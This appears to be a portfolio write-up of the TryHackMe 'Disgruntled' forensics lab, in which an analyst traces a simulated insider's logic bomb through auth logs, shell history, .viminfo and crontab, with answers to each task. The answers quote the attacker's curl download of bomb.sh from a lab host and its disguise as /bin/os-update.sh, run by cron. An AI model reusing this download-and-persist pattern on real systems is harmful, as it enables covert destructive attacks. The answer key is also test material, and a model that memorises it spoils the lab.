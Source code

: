 📝 Project Title:

TryHackMe – Disgruntled: Linux Forensics for Post‑Employment Logic Bomb Detection

🎯 Objective:

Investigate a Linux host for signs of malicious insider activity following a suspicious event. Focus on uncovering privilege escalation, unauthorized user creation, script creation and deployment (logic bomb), persistence mechanism via cron, and intended destructive action.

🛠️ Tools Used:

Linux command‑line (grep, cat, ls, cd)
/var/log/auth.log for sudo log auditing
User history analysis (.bash_history, .viminfo)
File metadata inspection (ls ‑la, file timestamps)
Text editors (vi, nano)
crontab analysis

❌ Skills Demonstrated:

Privileged access and process tracking via auth logs
Analysis of insider threat behavior (user creation, logic bomb)
File metadata and script content inspection
Persistence detection via scheduled tasks (cron)
Contextual timeline reconstruction

Project Overview

In this scenario, you assume the role of a Linux forensic analyst in a simulated environment where a disgruntled IT employee may have deployed a logic bomb. You begin by reviewing privileged activity logs in /var/log/auth.log, follow command execution chains through user histories and metadata, identify the logic bomb script and its scheduled activation, and deduce the intended harmful action.

🔍 Task Breakdown


✏️ Task 1: The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?

⭕️ Objective: Find the exact command used to install a package with sudo.

⭕️ Method:
grep sudo /var/log/auth.log | grep install
Extract full command.

🔱 Answer: /usr/bin/apt install dokuwiki

✏️ Task 2: What was the present working directory (PWD) when the previous command was run?

⭕️ Objective: Determine what directory the install command was run from.

⭕️ Method: The same auth log entry includes a PWD field.

🔱 Answer: /home/cybert

📸 Screenshot Space: 

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/1-1.png)   

✏️ Task 3: Which user was created after the package from the previous task was installed?

⭕️ Objective: Find the first user account added post-install.

⭕️ Method:
grep sudo /var/log/auth.log | grep adduser

🔱 Answer: it-admin

✏️ Task 4: A user was then later given sudo priveleges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)

⭕️ Objective: Determine when sudo privileges were added to the new user.

⭕️ Method:
grep sudo /var/log/auth.log | grep visudo

🔱 Answer: Dec 28 06:27:34

✏️ Task 5: A script file was opened using the "vi" text editor. What is the name of this file?

⭕️ Objective: Name the script file opened with vi.

⭕️ Method:
grep sudo /var/log/auth.log | grep vi

🔱 Answer: bomb.sh 

📸 Screenshot Space: 

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/4-1.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/4-2%20Part%20One.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/4-2%20Part%20Two.%20.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/4-3%20.png)   

✏️ Task 6: What is the command used that created the file bomb.sh?

⭕️ Objective: Identify how the script was created (downloaded).

⭕️ Method:
cat /home/it‑admin/.bash_history | grep curl

🔱 Answer: curl 10.10.158.38:8080/bomb.sh --output bomb.sh

✏️ Task 7: The file was renamed and moved to a different directory. What is the full path of this file now?

⭕️ Objective: Determine where and under what name the script was saved.

⭕️ Method:
cat /home/it‑admin/.viminfo | grep saveas

🔱 Answer: /bin/os-update.sh

✏️ Task 8: When was the file from the previous question last modified? (Format: Month Day HH:MM)

⭕️ Objective: Find when the renamed script was last modified.

⭕️ Method:
ls -la /bin | grep os-update.sh

🔱 Answer: Dec 28 06:29

✏️ Task 9: What is the name of the file that will get created when the file from the first question executes?

⭕️ Objective: Name the file created by the logic bomb.

⭕️ Method:
cat /bin/os-update.sh

🔱 Answer: goodbye.txt

✏️ Task 10: At what time will the malicious file trigger? (Format: HH:MM AM/PM)

⭕️ Objective: Discover when the malicious script is set to execute.

⭕️ Method:
cat /etc/crontab
Use crontab format to decode timing.

🔱 Answer: 08:00 AM

🔍 Analysis and Reflection

💡 Challenges Faced:

Tying sudo log entries to specific user activity
Reconstructing hidden file operations via .viminfo
Decoding cron timing into human-readable form

💡 Lessons Learned:

Linux auth logs are invaluable for untangling insider threats
Shell histories and editor metadata can reveal hidden workflows
Cron job analysis is essential for discovering persistence mechanisms

💡 Relevance to SOC / Incident Response:

Demonstrates tracking of privilege misuse and logic bomb deployment
Shows how forensic artifacts (logs, histories, metadata) tie into a timeline
Useful for developing alerting mechanisms (e.g., new user + cron file change)

💡 Relevance to Penetration Testing / Red Teaming:

Illustrates post‑access misuse and misuse of built‑in tools
Highlights tool misuse and stealth via cron scheduling

✅ Conclusion

Using Linux logs and forensic artifacts, the investigation revealed an illicit script install and scheduling, culminating in the discovery of a logic bomb set to execute at 8 AM. Indicators? New it-admin account, /bin/os-update.sh, and scheduled /etc/crontab entry. Profiling these behaviors helps develop defenses and alerts.

💡 Skills Gained:

Auth.log and sudo history analysis
Reconstruction of post-exploit workflow
Cron-based persistence discovery
Timeline correlation across logs, histories, and filesystem

💡 Next Steps:

Build alerts for unusual sudo installs and user creation
Monitor /etc/crontab and script activity for anomalies
Simulate logic bombs for defense playbooks

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/5-1.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/5-1%20Part%20Two..png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/5-2.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/5-3.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/5-4.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/6-1.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/6-1%20Part%20Two..png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/6-1%20Part%20Three.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/6-1%20Part%20Four.png) 

